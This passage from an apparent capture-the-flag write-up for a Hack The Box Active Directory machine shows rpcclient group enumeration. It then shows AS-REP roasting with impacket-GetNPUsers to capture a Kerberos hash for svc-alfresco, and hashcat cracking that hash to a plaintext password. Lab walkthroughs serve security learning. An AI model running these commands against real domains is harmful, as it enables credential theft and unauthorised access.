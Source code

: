 ```bash
rpcclient $> querygroup 0x200
	Group Name:	Domain Admins
	Description:	Designated administrators of the domain
	Group Attribute:7
	Num Members:1
rpcclient $> querygroup 0x206
	Group Name:	Schema Admins
	Description:	Designated administrators of the schema
	Group Attribute:7
	Num Members:1
rpcclient $> 

```
## Shell as Svc-alfresco
### Asrep roasting

we will add all the usernames in a list.
Since we have a list of valid users, now we can check if there is any account that have propery "Do not require Kerberos preauthentication" or "UF_DONT_REQUIRE_PREAUTH" set to true. For this, we will utilize `impacket-GetNPUsers` and try to get the hash for the user.

```bash
impacket-GetNPUsers htb.local/ -no-pass -dc-ip 10.10.10.161 -usersfile users.txt 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0987a16611644081aba095f6b57b3ea7$f8ee77afeba5bff918766b265c8c33d57e34cd8cbcaa7c020ca740160e8f877520909135f56db2d900311733d824892ab862b2d408cd0c323b0984652e9deea2bd8e8bfa8dd871c47f1c82f5bbe91db461b7ec3ea7502bde534ba3f6cf2a739206a9463d79c95d2f94f93654533beb0220c74238899c187f0508b5662f60053b217b845d52fb8775c5805c1a1f4882faa36712c2badff0cb27381692e0be1e9b0a2a16bd93d59134477f3b41f9a7ac4e115a738b1e74732296edc551efce53aecf0b7e42b448f7bda649343e90f20e62390529890099447e2b616edd101787a2e95cdce71072
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```
We got the hash of svc-alfresco. That means this user is vulnerable to asrep-roasting attack.

### Hashcat

we will add hash of this user in a hash.txt file and use hashcat to crack it.
```bash
$hashcat hash.txt /usr/share/wordlists/rockyou.txt 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:0987a16611644081aba095f6b57b3ea7$f8ee77afeba5bff918766b265c8c33d57e34cd8cbcaa7c020ca740160e8f877520909135f56db2d900311733d824892ab862b2d408cd0c323b0984652e9deea2bd8e8bfa8dd871c47f1c82f5bbe91db461b7ec3ea7502bde534ba3f6cf2a739206a9463d79c95d2f94f93654533beb0220c74238899c187f0508b5662f60053b217b845d52fb8775c5805c1a1f4882faa36712c2badff0cb27381692e0be1e9b0a2a16bd93d59134477f3b41f9a7ac4e115a738b1e74732296edc551efce53aecf0b7e42b448f7bda649343e90f20e62390529890099447e2b616edd101787a2e95cdce71072:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:0987a166116440...e71072
Time.Started.....: Sat Jul  5 19:59:02 2025 (9 secs)
Time.Estimated...: Sat Jul  5 19:59:11 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   473.2 kH/s (1.68ms) @ Accel:512 Loops:1 Thr:1 Vec:8
```